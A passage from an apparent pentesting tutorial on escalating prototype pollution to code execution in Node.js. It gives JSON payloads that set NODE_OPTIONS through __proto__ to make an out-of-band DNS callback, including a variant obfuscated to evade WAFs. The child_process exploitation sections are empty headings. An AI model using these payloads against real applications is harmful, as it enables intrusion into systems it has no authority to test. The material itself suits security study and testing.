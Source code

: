 ## DNS Interaction

Using the following payloads it's possible to abuse the NODE\_OPTIONS env var we have discussed previously and detect if it worked with a DNS interaction:

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id.oastify.com"
  }
}
```

Or, to avoid WAFs asking for the domain:

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
  }
}
```

## PP2RCE vuln child\_process functions

In this section where are going to analyse **each function from `child_process`** to execute code and see if we can use any technique to force that function to execute code:

<details><summary><code>exec</code> exploitation</summary></details>

<details><summary><strong><code>execFile</code> exploitation</strong></summary></details>

<details><summary><code>fork</code> exploitation</summary></details>

<details><summary><strong><code>spawn</code> exploitation</strong></summary></details>

<details><summary><strong><code>execFileSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>execSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>spawnSync</code> exploitation</strong></summary></details>

## Forcing Spawn

In the previous examples you saw how to trigger the gadget a functionality that **calls `spawn`** needs to be **present** (all methods of **`child_process`** used to execute something calls it). In the previous example that was **part of the the code**, but what if the code **isn't** calling it.

### Controlling a require file path

In this [**other writeup**](https://blog.sonarsource.com/blitzjs-prototype-pollution/) the user can control the file path were a **`require`** will be executed. In that scenario the attacker just needs to **find a `.js` file inside the system** that will **execute a spawn method when imported.**\
Some examples of common files calling a spawn function when imported are:
